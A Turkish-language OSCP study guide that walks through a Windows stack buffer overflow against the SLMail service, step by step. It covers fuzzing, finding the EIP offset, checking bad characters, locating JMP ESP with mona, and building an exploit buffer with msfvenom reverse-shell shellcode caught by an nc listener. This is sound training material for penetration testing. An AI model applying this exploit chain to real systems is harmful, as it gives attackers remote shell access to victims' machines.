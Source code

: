 # BOF Windows
> OSCP sınavı BOF adımları

## Overview
uygulamayı analiz etmek için 3 method vardır.
* Kaynak kod analizi
* Reverse engineering
* Fuzzing

## Fuzzing

SLMail uygulaması için ornek fuzzing

for @ ("A"*30)

#### Hangi Karakterde patladığını bulma

- Uygulamayı admin olarak aç
- Immumity Debugger ı aç
- File > Attach SLmail OK
- (optional) Font değişikliği: Sağ tık > Appearance > Font > OEM fixed
- (optional) Hex 8->16 byte: Sağ tık > Hex > Hex/ASCI 16 bytes

Immumity debugger defaultta stop durumdadır. 
- Start'a tıklanır >
- Fuzzing script çalıştırılır.
- App crash olur, debugger durur.
- Fuzzing script hangi byte da crash olduguna gore script duzenlenebilir.

> Not: OSCP sınavında poc.py kodu verilmektedir. Buraya kadarki kısım ozet BOF anlatımı içindir.


## Crash Replication

```
buffer = 'A'*2700
```

**NOT: Uygulama her seferinde task manager dan kapatılmalı ve immunity debuuger a attach edilmelidir.**

## Controlling EIP (OSCP Soru Baslangic)

Kali:
```
locate pattern_create 
```
ile dosya lokasyonu alınır ve aşağıdaki komut çalıştırılır. Not: 2700 koda göre değişecek.
```
/usr/share/metasploit-framework/tools/pattern_create.rb -l 2700
```

- Bu karakterler serisi alınır ve poc kodu degistirilir: 

```
buffer = '<konyalananPattern>'
```
ya da
```
buffer = cmd + '<konyalananPattern>' + end
```

- Exploit kodu çalıştırılır ve **EIP'deki** deger alınır

Kali:
```
locate pattern_offset.rb
/usr/share/metasploit-framework/tools/pattern_offset.rb -q <EIPdeger>

Dönen Örnek Cevap:

Offset 2606
```

POC.py`değiştirilir.
```
buffer = 'A'*2606 + 'B'*4 + 'C'*90
```
Not: 90 olması toplamda 2700 yapmak icin.

- Uygulama tekrar attach edilir. 
- EIP register 42424242 olmalı, yani BBBB.

Buraya kadar OK ise, devam edilir. **EIP BBBB olmadıysa işlem tekrar yapılır.**

## Introducing Shellcode

- ESP > Sağ tık > Follow in Dump

![Follow Dump ESP](picturesBOF/pic1.png)

Change Code:
```
buffer = 'A'*2606 + 'B'*4 + 'C'*(3500-2606-4)
```

Kaç byte bosluk oldugunu gormek icin aşağıdaki resimdeki gibi C'lerin sonuna bakılabilir.

![Shell code Boşluk](picturesBOF/pic2.png)

## Bad Characters

POC.py editlenir:

** BadChars Kontrol Dizisi **
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```
buffer = 'A'*2606 + 'B'*4 + badchars
```

- Bu şekilde kod çalıştırılır. 
- ESP follow yapılır.

Not: 00 null bytes'dır default'ta.

- Aşağıdaki gibi diziyi bozan karakterler code'dan sırayla çıkartılarak bu işlem sonuna kadar devam ettirilir.

![Bad Characters](picturesBOF/pic3.png)

- Bu ornekte /x0a badcharacters'dir. 
- Flow u bozan bütün bad characters ler silinir. /x00, /x0a, /x0d
- Sadece kendisinden sonra gelenleri bozan karakterler değil, kendisini göstermeyip gerisini düzgün gösteren karakterler de silinir.

## Redirecting Execution

Statik ESP adresi iyi bir çözüm değildir bu yüzden ESP'yi daha akıllıca değiştirmemiz lazım.

### Introducing Mona

** JMP ESP Bulma **

Mona modules ile dll'ler bulunur. Bu DLL ler bulunurken bir kaç kriter vardır.

![Mona modules](picture/pic4.png)

```
!mona modules
```

Kriter'ler:
- Safeseh, aslr, rebase, nxcompat false olmalı
- Null bytes ile başlamamalı
- bad characters olmamalı.

buradan ilgili .dll dosyası bulunur.

- Executable module list'e tıklanır. (e)
- Module list (m)

- ilgili .dll dosyası bulunur ve çift tıklanır.
- Immunity Debugger baslik ilgili DLL oldugu gorulur.

![executable module list](picturesBOF/pic5.png)

** JMP ESP ** bulmak için mona dan yararlanmak mantıklı.

![Find Jmp Esp](picturesBOF/pic6.png)

JMP ESP -> FFE4

```
!mona find -s '\xff\xe4' -m <dllfile>
```

For example: 5F4A358F

Edit the POC code:

```
buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + 'C'*(3500-2606-4)
```

Immunity Debugger da F2 ye basarak ESP başına breakpoint koyabiliriz.

F8 ile devam ettiğimizde kodun ESP başına INC EBX e gittiğini görebiliriz. Burada istenilen kod çalıştırılabilir.

## Shellcode

Create shell code:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

eğer çalışmaz ise encode aşağıdaki gibi değiştirilebilir.

```
 -e x86/fnstenv_mov
```

Shellcode POC koda yapıstirilir ve code asağıdaki gibi değiştirilir.

```
shellcode = ("kod")

buffer = 'A'*2606 + '\x8f\x35\x4a\x5f' + '\x90'*16 +shellcode + 'C'*(3500-2606-4-351-16)
```

POC kodu atak makinada çalıştırılır ve lport dinlenir. (nc -nvlp 443)

shell gelir.

